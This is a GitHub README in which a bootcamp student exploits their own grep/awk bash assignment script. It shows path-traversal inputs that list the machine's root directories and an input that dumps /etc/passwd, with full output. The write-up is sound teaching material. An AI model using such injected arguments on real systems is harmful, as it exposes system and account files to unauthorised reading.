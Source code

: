 ## LuckyDuckInvestigation Exploit

This .sh file is a bash script I wrote for my Cyber Security Bootcamp assignment to find who the game dealer was during a specified time and game for the Lucky Ducky Investigation.

We were tasked to create a bash script that took user import using grep and awk. It took me a good chunk of time to come up with the script that I am presenting here as I was pretty new to writing bash scripts which means my code isn’t very secure. Once the asignment was completed, I took it upon myself to exploit my own code.

I found that as long as you meet the IF requirment of a game, then the rest of the argument was able to run with the order of TIME > PAM > DATE > GAME.

So if x = GAME, then awk DATE and grep TIME and PAM.

This means I had 3 user input values I can manipulate as long as I specifiy one of the 3 games for my 4th value.

A LOT of trial and error lead me to find the first exploit - Local File Inclusion.

changing the input from

```sh
8 AM 0310 BlackJack
```
to
```sh
8 ../../../ ../../../../ BlackJack
```
outputs the names of directories on the machine
```sh
~#5 ../../../../../../ ../../../../../../../ TexasHoldEm 
~~~~~~~~~~~~~~~~~~~~~~~
awk: warning: command line argument `../../../../../../../03-instructor' is a directory: skipped
awk: warning: command line argument `../../../../../../../03-student' is a directory: skipped
awk: warning: command line argument `../../../../../../../bin' is a directory: skipped
awk: warning: command line argument `../../../../../../../boot' is a directory: skipped
awk: warning: command line argument `../../../../../../../cdrom' is a directory: skipped
awk: warning: command line argument `../../../../../../../cmdCTF' is a directory: skipped
awk: warning: command line argument `../../../../../../../dev' is a directory: skipped
awk: warning: command line argument `../../../../../../../Documents' is a directory: skipped
awk: warning: command line argument `../../../../../../../etc' is a directory: skipped
awk: script2.awk:4: warning: command line argument `../../../../../../../git-ctf' is a directory: skipped
awk: script2.awk:4: warning: command line argument `../../../../../../../home' is a directory: skipped
awk: script2.awk:4: warning: command line argument `../../../../../../../home1' is a directory: skipped
```

This was an exciting discovery but I wanted to be more specific and eventually narrowed it down to dump the /etc/passwd file by grepping x and : and specifying the path to the file

```sh
~#x : /etc/passwd Roulette
~~~~~~~~~~~~~~~~~~~~~~~
root:x:0:0:root:/root:/bin/bash   
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin   
bin:x:2:2:bin:/bin:/usr/sbin/nologin   
sys:x:3:3:sys:/dev:/usr/sbin/nologin   
sync:x:4:65534:sync:/bin:/bin/sync   
games:x:5:60:games:/usr/games:/usr/sbin/nologin   
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin   
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin   
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin   
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin   
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin   
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin   
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin   
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin   
list:x:38:38:Mailing List  
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin   
gnats:x:41:41:Gnats Bug-Reporting  
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin   
systemd-network:x:100:102:systemd Network  
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin  
syslog:x:102:106::/home/syslog:/usr/sbin/nologin   
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin   
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin   
uuidd:x:105:111::/run/uuidd:/usr/sbin/nologin   
```
